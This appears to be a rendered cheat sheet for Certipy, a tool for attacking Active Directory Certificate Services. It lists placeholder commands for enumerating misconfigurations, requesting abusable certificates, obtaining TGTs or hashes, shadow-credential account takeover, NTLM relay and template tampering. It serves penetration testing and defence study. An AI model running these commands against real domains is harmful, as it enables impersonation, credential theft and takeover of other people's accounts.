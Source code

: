 > Designed to **enumerate, identify, and exploit misconfigurations in Active Directory Certificate Services (AD CS)**

| Action          | Command Example                                                                 | Description                                              |
| --------------- | ------------------------------------------------------------------------------- | -------------------------------------------------------- |
| Enumerate AD CS | `certipy find -u user -p pass -dc-ip <DC IP> -target <domain>`                  | Finds CAs, templates, and misconfigs                     |
| Request cert    | `certipy req -u user -p pass -ca <CA name> -template <template> -dc-ip <DC IP>` | Requests a certificate (can be abused for impersonation) |
| Authenticate    | `certipy auth -pfx <cert.pfx> -password <pfx_password> -dc-ip <DC IP>`          | Authenticates using a certificate to obtain a TGT/hash   |
| Shadow creds    | `certipy shadow -u user -p pass -target <target user> -dc-ip <DC IP>`           | Abuses shadow credentials for account takeover           |
| Relay attack    | `certipy relay -target <CA HTTP endpoint> -u user -p pass -dc-ip <DC IP>`       | Performs NTLM relay to AD CS                             |
| Manage template | `certipy template -u user -p pass -action dump -dc-ip <DC IP>`                  | Dumps or modifies certificate templates                  |
